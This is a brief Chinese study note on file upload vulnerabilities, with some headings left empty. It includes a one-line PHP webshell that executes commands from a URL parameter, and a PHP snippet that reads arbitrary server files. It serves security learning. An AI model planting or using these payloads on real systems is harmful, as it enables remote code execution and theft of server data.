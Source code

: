 ```yaml
---
description: 验证存在固有缺陷或者容易被绕过。即使是强大的验证措施也可能在构成网站的主机和网站的文件系统中不一致地应用，从而导致可被利用的差异。
---
```


# ✔️ 文件上传 - File upload

## 存在漏洞的特征

### 利用不受限制的文件

* [x] 允许上传服务器端脚本文件（PHP / Java / Python）
* [x] 可将这些脚本文件配置为代码执行

### 利用上传验证缺陷





## 常见攻击方式

### 1. 上传webshell

```php
// 通用的Webshell
<?php echo system($_GET['command']); ?>
```



### 2. 后续攻击

```php
// 从服务器的文件系统读取任意文件
<?php echo file_get_contents('/path/to/target/file'); ?>
```

## 绕过上传验证措施

